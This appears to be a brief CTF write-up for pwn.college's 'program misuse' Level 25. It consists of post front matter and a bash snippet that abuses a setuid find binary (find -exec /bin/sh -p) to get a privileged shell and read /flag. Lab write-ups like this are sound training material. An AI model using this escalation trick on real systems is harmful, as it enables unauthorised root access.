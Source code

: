 ```yaml
---
layout: post
title: "Level 25"
date: 2024-4-10 12:00:00 -0000
categories: [pwn college, program misuse]
---
```


```bash
find . -exec /bin/sh -p \;
cat /flag
```